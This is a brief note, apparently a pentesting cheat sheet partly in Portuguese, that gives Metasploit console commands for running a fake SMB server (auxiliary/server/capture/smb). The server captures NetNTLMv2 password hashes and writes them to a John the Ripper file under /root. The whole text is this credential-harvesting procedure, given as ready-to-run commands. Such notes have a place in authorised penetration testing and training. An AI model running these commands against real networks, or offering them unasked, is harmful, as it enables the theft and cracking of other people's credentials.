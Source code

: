 # SMB FAKE

msf > use auxiliary/server/capture/smb
msf auxiliary(smb) > set JOHNPWFILE /root/smb
msf auxiliary(smb) > run

*Será salvo um arquivo com os hashs de nome smb_netntlmv2.*
